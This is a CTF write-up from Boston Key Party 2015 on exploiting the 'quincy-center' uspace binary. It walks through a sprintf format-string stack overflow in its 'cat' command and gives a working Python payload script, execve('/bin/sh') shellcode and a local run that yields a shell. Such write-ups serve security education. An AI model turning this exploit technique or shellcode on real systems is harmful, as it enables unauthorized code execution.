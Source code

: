 ```yaml
---
title: '[bkpCTF-2015] quincy-center (uspace) write-up'
author: PPP
layout: post
categories:
  - CTF
  - Write-Ups
date: 2015-03-07 13:37:00
---
```

**=== If you have any trouble with poor formatting here, you can read the original post at <a href="https://www.bpak.org/blog/2015/03/bkpctf-2015-quincy-center-uspace-write-up/" target="_blank">this blog</a> ===**

This is a write-up for **quincy-center** challenge, which is the first part of 3-chained pwnable challenge from <a href="https://ctftime.org/event/163" target="_blank">Boston Key Party CTF</a> last weekend. You can read about the other parts here: <a href="http://ppp.cylab.cmu.edu/wordpress/?p=1229" target="_blank">quincy-adams</a>, <a href="http://ppp.cylab.cmu.edu/wordpress/?p=1234" target="_blank">braintree</a>.

The binaries were packaged into a <a href="https://www.bpak.org/blog/wp-content/uploads/2015/03/zenhv-e941cb4585deafcf5a1b86050a3ebe7a.gz" target="_blank">tar ball</a>.

> The MBTA wrote a cool system. It&#8217;s pretty bad though, sometimes the commands work, sometimes they don&#8217;t&#8230;  
> Exploit it. (uspace flag) 54.165.91.92 8899

The goal is to get &#8220;uspace&#8221; flag by exploiting the user space process.

Looking at the output of <span class="lang:default decode:true  crayon-inline">file</span> , these are all x86_64 binaries.

<pre class="toolbar:2 toolbar-hide:false toolbar-delay:false show-title:false nums:false nums-toggle:false lang:default decode:true">$ file uspace 
uspace: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=98a138f60a8cfd6239de3181ef118776db40c8e6, stripped
</pre>

Opening up in IDA Pro, we see that <span class="lang:default decode:true  crayon-inline">sub_401470</span> has the process loop that prompts &#8220;bksh> &#8221; like a shell environment.

<div id="attachment_1911" style="width: 471px" class="wp-caption aligncenter">
  <a href="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_1.png"><img class="wp-image-1911" src="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_1.png" alt="" width="461" height="440" /></a>
  
  <p class="wp-caption-text">
    bksh (uspace) command line parser
  </p>
</div>

&nbsp;

First, we see that there are semaphore locking/unlocking for I/O operations, which don&#8217;t seem to be too important at the moment. Then, the code to parse the command follows.

The general scheme for how the system works will be explained in the next series (kspace), so we will leave out the details of how things are implemented and maintained for now. Understanding the operations (create, list, remove, etc.) abstractly is good enough for exploiting the user space <img src="http://ppp.cylab.cmu.edu/wordpress/wp-includes/images/smilies/simple-smile.png" alt=":)" class="wp-smiley" style="height: 1em; max-height: 1em;" />

There are total of 6 commands it understands: **ls**, **create**, **rm**, **cat**, **sleep**, and **exit**.

  * ls &#8211; lists files on the system
  * create &#8211; creates a new file on the system
  * rm &#8211; deletes a file on the system
  * sleep &#8211; sleep&#8230;
  * exit &#8211; exits the shell

Let&#8217;s look at what **create** does for us.

The function takes the first argument to the command as a file name, and reads 256 bytes from the user for the content of the file that is being created. The buffer that is being read is large enough, so there&#8217;s no overflow here. Then, it &#8220;calls&#8221; into the kernel &#8220;syscall&#8221; (via shared memory) with the syscall number 96 and its two arguments (file name & contents buffer). Everything seems normal and sane, so we move on.

<div id="attachment_1915" style="width: 493px" class="wp-caption aligncenter">
  <a href="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_2.png"><img class="wp-image-1915 " src="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_2.png" alt="" width="483" height="212" /></a>
  
  <p class="wp-caption-text">
    create syscall (from uspace to kspace)
  </p>
</div>

&nbsp;

Looking through more functions, we find a vulnerable code in **cat**, where it uses <span class="lang:default decode:true  crayon-inline ">sprintf</span> with the file contents buffer as its format string (aka trivial buffer overflow).

<div id="attachment_1918" style="width: 486px" class="wp-caption aligncenter">
  <a href="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_3.png"><img class="wp-image-1918" src="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_3.png" alt="" width="476" height="452" /></a>
  
  <p class="wp-caption-text">
    &#8220;cat&#8221; operation (open syscall followed by read syscall)
  </p>
</div>

&nbsp;

**v12** is a stack buffer of size 256 bytes, and it&#8217;s located **bp-0x118**. Also, we noticed that the NX was disabled on this binary, so we could easily jump to our buffer (such as one of our arguments for the command). Conveniently, the pointers to our arguments are on the stack, so we can do a simple pop/pop/ret gadget to get an arbitrary code execution 😀

<pre class="whitespace-after:1 lang:python decode:true" title="pwn_uspace.py">#!/usr/bin/python
import struct

def p(v):
    return struct.pack('&lt;Q', v)

def u(v):
    return struct.unpack('&lt;Q', v)[0]

f = open('payload', 'wb')

pop_pop_ret = 0x40110F

f.write('create fmt\n'.ljust(0x400, '#'))

payload = '%280x' + p(pop_pop_ret)
f.write(payload.ljust(0x100, '\0'))

f.write(('cat fmt ' + open('shell.bin').read()+ '\n').ljust(0x400, '#'))

</pre>

<pre class="whitespace-after:1 lang:asm decode:true" title="shell.asm">[BITS 64]

section .text
global _start
_start:

lea rdi, [rel binsh]
xor rsi, rsi
xor rdx, rdx
mov rax, 0x3b
syscall

binsh:
db '/bin/sh',0
</pre>

<pre class="nums:false whitespace-after:1 lang:sh decode:true " title="Pwn!">$ nasm shell.asm -f bin -o shell.bin
$ python pwn_uspace.py
$ (cat ../uspace/payload; cat -) | sudo ./tz
bksh&gt; bksh&gt;
whoami
uspace
</pre>

We have successfully got a shell as *uspace* user.  
(Note that since the challenge servers are down, the exploitation is shown in a local setup.)

Once we have arbitrary code running on uspace, we can then perform syscalls that are exposed by the kernel, but not available through a user-space interface (such as syscall number 92, shown below).

<div id="attachment_1929" style="width: 543px" class="wp-caption aligncenter">
  <a href="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_4.png"><img class="wp-image-1929" src="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_4.png" alt="" width="533" height="360" /></a>
  
  <p class="wp-caption-text">
    kspace syscall handler
  </p>
</div>

The analysis of kspace & tz will be continued on the next post.

&nbsp;

Write-up by Cai (Brian Pak) [https://www.bpak.org]

&nbsp;